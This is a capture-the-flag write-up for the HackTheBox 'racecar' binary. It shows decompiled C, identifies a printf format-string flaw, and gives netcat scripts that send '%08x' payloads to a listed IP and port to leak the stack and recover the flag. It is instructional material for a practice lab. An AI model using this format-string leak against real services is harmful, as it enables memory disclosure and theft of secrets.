







# racecar
This was my first challenge from HackTheBox website.
It took me a quite to get used of the system and how to connect to the server.

## The challenge:


They provide only 1 file [racecar](racecar) from the `Download Files` button.

Like common CTF I know, we have to somehow find a hidden text using this file. Then put it into `Submit Flag` section.

## First look
First I extracted it and checked its format:
```
> file racecar
racecar: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=c5631a370f7704c44312f6692e1da56c25c1863c, not stripped
```

It's 32-bit Linux executable Intel x86.
Let's `cat` it to view any useful information. Then I found an interesting piece:
```
[!] Do you have anything to say to the press after your big victory?
> %srflag.txt%s[-] Could not open flag.txt. Please contact the creator.

The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: %s

[-] You lost the race and all your coins!

%sInsert your data:
```

I thought it's quite easy to submit the flag: `The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this` but then I realized it's not that simple.

It had `flag.txt` but the racecar.zip they gave us only had an executable racecar file.

## Run it

Put the file into a Linux x86_x64 environment (not need 32 bit), we could see some output. 



Playing around with the file I realized this was a simple game of choice for 2 cars.



Since the 2nd car was racing one, I would choose it.



And of course, Highway for faster car.



Yes. I won, now what?

It requested me to put some text in. Just say `hello`.
Ok, we won but got nothing. Where is the flag?

## Disassemble it
Since the game gave us the first look of what going on, we still not have any idea how to get the flag.
Then we have to disassemble it to see the details.



There were 2 important points to look at: main() and car_menu().

- main() function:
```C
void main(void)

{
  int iVar1;
  int iVar2;
  int in_GS_OFFSET;
  
  iVar1 = *(int *)(in_GS_OFFSET + 0x14);
  setup();
  banner();
  info();
  while (check != 0) {
    iVar2 = menu();
    if (iVar2 == 1) {
      car_info();
    }
    else if (iVar2 == 2) {
      check = 0;
      car_menu();
    }
    else {
      printf("\n%s[-] Invalid choice!%s\n",&DAT_00011548,&DAT_00011538);
    }
  }
  if (iVar1 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

- car_menu() function:

```C
void car_menu(void)

{
  int iVar1;
  int iVar2;
  uint __seed;
  int iVar3;
  size_t sVar4;
  char *__format;
  FILE *__stream;
  int in_GS_OFFSET;
  undefined *puVar5;
  undefined4 uVar6;
  undefined4 uVar7;
  uint local_54;
  char local_3c [44];
  int local_10;
  
  local_10 = *(int *)(in_GS_OFFSET + 0x14);
  uVar6 = 0xffffffff;
  uVar7 = 0xffffffff;
  do {
    printf(&DAT_00011948);
    iVar1 = read_int(uVar6,uVar7);
    if ((iVar1 != 2) && (iVar1 != 1)) {
      printf("\n%s[-] Invalid choice!%s\n",&DAT_00011548,&DAT_00011538);
    }
  } while ((iVar1 != 2) && (iVar1 != 1));
  iVar2 = race_type();
  __seed = time((time_t *)0x0);
  srand(__seed);
  if (((iVar1 == 1) && (iVar2 == 2)) || ((iVar1 == 2 && (iVar2 == 2)))) {
    iVar2 = rand();
    iVar2 = iVar2 % 10;
    iVar3 = rand();
    iVar3 = iVar3 % 100;
  }
  else if (((iVar1 == 1) && (iVar2 == 1)) || ((iVar1 == 2 && (iVar2 == 1)))) {
    iVar2 = rand();
    iVar2 = iVar2 % 100;
    iVar3 = rand();
    iVar3 = iVar3 % 10;
  }
  else {
    iVar2 = rand();
    iVar2 = iVar2 % 100;
    iVar3 = rand();
    iVar3 = iVar3 % 100;
  }
  local_54 = 0;
  while( true ) {
    sVar4 = strlen("\n[*] Waiting for the race to finish...");
    if (sVar4 <= local_54) break;
    putchar((int)"\n[*] Waiting for the race to finish..."[local_54]);
    if ("\n[*] Waiting for the race to finish..."[local_54] == '.') {
      sleep(0);
    }
    local_54 = local_54 + 1;
  }
  if (((iVar1 == 1) && (iVar2 < iVar3)) || ((iVar1 == 2 && (iVar3 < iVar2)))) {
    printf("%s\n\n[+] You won the race!! You get 100 coins!\n",&DAT_00011540);
    coins = coins + 100;
    puVar5 = &DAT_00011538;
    printf("[+] Current coins: [%d]%s\n",coins,&DAT_00011538);
    printf("\n[!] Do you have anything to say to the press after your big victory?\n> %s",
           &DAT_000119de);
    __format = (char *)malloc(0x171);
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0) {
      printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                    /* WARNING: Subroutine does not return */
      exit(0x69);
    }
    fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170);
    puts(
        "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world  to know this: \x1b[0m"
        );
    printf(__format);
  }
  else if (((iVar1 == 1) && (iVar3 < iVar2)) || ((iVar1 == 2 && (iVar2 < iVar3)))) {
    printf("%s\n\n[-] You lost the race and all your coins!\n",&DAT_00011548);
    coins = 0;
    printf("[+] Current coins: [%d]%s\n",0,&DAT_00011538);
  }
  if (local_10 != *(int *)(in_GS_OFFSET + 0x14)) {
    __stack_chk_fail_local();
  }
  return;
}
```

Ok. We had interesting things here:
```c
    __format = (char *)malloc(0x171);
    __stream = fopen("flag.txt","r");
    if (__stream == (FILE *)0x0) {
      printf("%s[-] Could not open flag.txt. Please contact the creator.\n",&DAT_00011548,puVar5);
                    /* WARNING: Subroutine does not return */
      exit(0x69);
    }
    fgets(local_3c,0x2c,__stream);
    read(0,__format,0x170);
    puts(
        "\n\x1b[3mThe Man, the Myth, the Legend! The grand winner of the race wants the whole world  to know this: \x1b[0m"
        );
    printf(__format);
```
It reads the "flag.txt" content into `local_3c` through `__stream`.
If "flag.txt" not exist, we are failed. But where the hell "flag.txt"?

It took me a while to figure out that we have to attack a server of HTB to get the flag. The `racecar` and `flag.txt` locate on the server!
So we have to spawn the target machine on the server: 



To achive that, we need to use netcat: 
```s
nc 138.68.134.63 31625
```

So in `fgets(local_3c,0x2c,__stream);` it reads 0x2c (44 bytes) and put it to a local variable `char local_3c [44];` 
BUT it never outputs this variable. So we MUST somehow attack to read the memory of `local_3c`.

Next sentence `read(0,__format,0x170);` reads 0x170 (368) bytes into `__format`


## Exploit the hole
The security risk at here: `printf(__format);` 
So using `printf` without parameter allow attacker execute unexpected code.
Reference: https://cs155.stanford.edu/papers/formatstring-1.2.pdf

So we need a script to automatically fill in the game choice then put our hack code:

[./ex.sh](ex.sh)
```s
#!/bin/bash
{ 
    echo "a"; sleep 1; 
    echo "b"; sleep 1; 
    echo "2"; sleep 1; 
    echo "2"; sleep 1; 
    echo "1"; sleep 1;
    python3 -c "print('%08x'*92)"
} | nc 138.68.134.63 31625
```

We just need to dump the stack for our maximum buffer size of 368 bytes. '%08x' takes 4 bytes so we have 368/4=92 bytes.
Result from server:
```
The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this: 
580ce1c00000017056589dfa00000012000000050000002600000002000000015658a96c580ce1c0580ce3407b4254485f7968775f64316434735f31745f3376665f33685f67346c745f6e30355f33686b633474007d213f6261b500f7fc63fc5658cf8cffc97d485658a44100000001ffc97df4ffc97dfc6261b500ffc97d600000000000000000f7e09f21f7fc6000f7fc600000000000f7e09f2100000001ffc97df4ffc97dfcffc97d8400000001ffc97df4f7fc6000f7fe470affc97df000000000f7fc60000000000000000000cc47cc9d9f80ca8d00000000000000000000000000000040f7ffc0240000000000000000f7fe48195658cf8c000000015658979000000000565897c15658a3e100000001ffc97df45658a4905658a4f0f7fe4960ffc97decf7ffc94000000001ffc98d3c00000000ffc98d4effc98d70ffc98d9cffc98dbbffc98ddeffc98e0bffc98e20ffc98e42ffc98e60ffc98e7cffc98ea4ffc98ee6ffc98f0bffc98f2c
```

Ok. Interesting!
Just need a small bash script to convert these hex bytes to ascii:

```
./convert2string.sh 580ce1c00000017056589dfa00000012000000050000002600000002000000015658a96c580ce1c0580ce3407b4254485f7968775f64316434735f31745f3376665f33685f67346c745f6e30355f33686b633474007d213f6261b500f7fc63fc5658cf8cffc97d485658a44100000001ffc97df4ffc97dfc6261b500ffc97d600000000000000000f7e09f21f7fc6000f7fc600000000000f7e09f2100000001ffc97df4ffc97dfcffc97d8400000001ffc97df4f7fc6000f7fe470affc97df000000000f7fc60000000000000000000cc47cc9d9f80ca8d00000000000000000000000000000040f7ffc0240000000000000000f7fe48195658cf8c000000015658979000000000565897c15658a3e100000001ffc97df45658a4905658a4f0f7fe4960ffc97decf7ffc94000000001ffc98d3c00000000ffc98d4effc98d70ffc98d9cffc98dbbffc98ddeffc98e0bffc98e20ffc98e42ffc98e60ffc98e7cffc98ea4ffc98ee6ffc98f0bffc98f2c
```

Output:

```
X
 ��pVX��&VX�lX
              ��X
                 �@{BTH_yhw_d1d4s_1t_3vf_3h_g4lt_n05_3hkc4t}!?ba���c�VXό��}HVX�A��}���}�ba���}`���!��`��`���!��}���}���}���}���`��G
��}���`�G̝��ʍ@���$��HVXόVX��VX��VX����}�VX��VX����I`��}����@�ɍ<�ɍN�ɍp�ɍ��ɍ��ɍ��Ɏ
                                                                               �Ɏ �ɎB�Ɏ`�Ɏ|�Ɏ��Ɏ��ɏ
                                                                                                   �ɏ,
```

We nearly get the flag:
`{BTH_yhw_d1d4s_1t_3vf_3h_g4lt_n05_3hkc4t}!?`

I firstly submitted this but it's incorrect.
I didn't notice the little endian layout.
So I did test my local `racecar` with my sample flag.txt
[flag.txt](flag.txt)

```
1abcdefghijklmnopqrstuvwxyz2abcdefghijklmnopqrstuvwxyz3abcdefghijklmnopqrstuvwxyz4abcdefghijklmnopqrstuvwxyz
```

Its format like: a->z with increment of number at beginning.

Attack local script:

```s
#!/bin/bash
{ 
    echo "a"; sleep 1; 
    echo "b"; sleep 1; 
    echo "2"; sleep 1; 
    echo "2"; sleep 1; 
    echo "1"; sleep 1;
    python3 -c "print('%08x'*92)" 
} | ./racecar
```

Output after convert string to acsii:
```
cba1gfedkjihonmlsrqpwvut2zyxdcbahgfelkjionm 
```

So we have `1abc` `defg` -> `cba1` `gfed`

Swap every 4 bytes!

[final.sh](final.sh)
```s
#!/bin/bash
# Split the string into 4-character chunks
echo "{BTH_yhw_d1d4s_1t_3vf_3h_g4lt_n05_3hkc4t}!?" | fold -w4 | rev | paste -s -d ''
```

The flag: `HTB{why_d1d_1_s4v3_th3_fl4g_0n_th3_5t4ck?!}`